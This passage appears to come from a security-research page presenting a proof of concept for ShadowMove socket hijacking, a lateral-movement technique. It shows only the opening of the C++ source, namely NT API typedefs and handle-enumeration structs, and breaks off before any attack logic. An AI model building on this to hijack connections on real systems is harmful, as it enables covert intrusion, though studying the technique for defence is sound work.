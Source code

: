 ## Code

Below is the code [written](https://adepts.of0x.cc/shadowmove-hijack-socket/) by [Juan Manuel Fernández](https://www.twitter.com/@TheXC3LL) which I modified slightly, so that it would compile without errors in my development environment with Visual Studio 2019:

```cpp
// PoC of ShadowMove Gateway by Juan Manuel Fernández (@TheXC3LL) 

#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include <winsock2.h>
#include <Windows.h>
#include <stdio.h>

#pragma comment(lib,"WS2_32")

// Most of the code is adapted from https://github.com/Zer0Mem0ry/WindowsNT-Handle-Scanner/blob/master/FindHandles/main.cpp
#define STATUS_INFO_LENGTH_MISMATCH 0xc0000004
#define SystemHandleInformation 16
#define ObjectNameInformation 1

typedef NTSTATUS(NTAPI* _NtQuerySystemInformation)(
	ULONG SystemInformationClass,
	PVOID SystemInformation,
	ULONG SystemInformationLength,
	PULONG ReturnLength
	);
typedef NTSTATUS(NTAPI* _NtDuplicateObject)(
	HANDLE SourceProcessHandle,
	HANDLE SourceHandle,
	HANDLE TargetProcessHandle,
	PHANDLE TargetHandle,
	ACCESS_MASK DesiredAccess,
	ULONG Attributes,
	ULONG Options
	);
typedef NTSTATUS(NTAPI* _NtQueryObject)(
	HANDLE ObjectHandle,
	ULONG ObjectInformationClass,
	PVOID ObjectInformation,
	ULONG ObjectInformationLength,
	PULONG ReturnLength
	);

typedef struct _SYSTEM_HANDLE
{
	ULONG ProcessId;
	BYTE ObjectTypeNumber;
	BYTE Flags;
	USHORT Handle;
	PVOID Object;
	ACCESS_MASK GrantedAccess;
} SYSTEM_HANDLE, * PSYSTEM_HANDLE;

typedef struct _SYSTEM_HANDLE_INFORMATION
{
	ULONG HandleCount;
	SYSTEM_HANDLE Handles[1];
} SYSTEM_HANDLE_INFORMATION, * PSYSTEM_HANDLE_INFORMATION;

typedef struct _UNICODE_STRING
{
	USHORT Length;
```